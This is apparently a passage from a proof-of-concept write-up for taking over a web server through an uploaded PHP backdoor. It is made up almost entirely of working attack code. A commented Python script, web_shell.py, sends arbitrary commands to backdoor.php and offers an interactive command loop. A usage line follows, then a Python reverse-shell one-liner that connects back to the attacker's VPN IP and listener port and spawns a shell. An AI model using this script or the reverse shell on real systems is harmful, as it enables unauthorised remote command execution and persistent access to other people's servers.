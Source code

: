 We can use the below Python script (save it as web_shell.py) to obtain a shell, leveraging the uploaded backdoor.php file:

```python
import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")
```

Use the script as follows:
```bash
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. **Ensure that an active listener (such as Netcat) is in place before executing the below**:

```python3
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes


python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
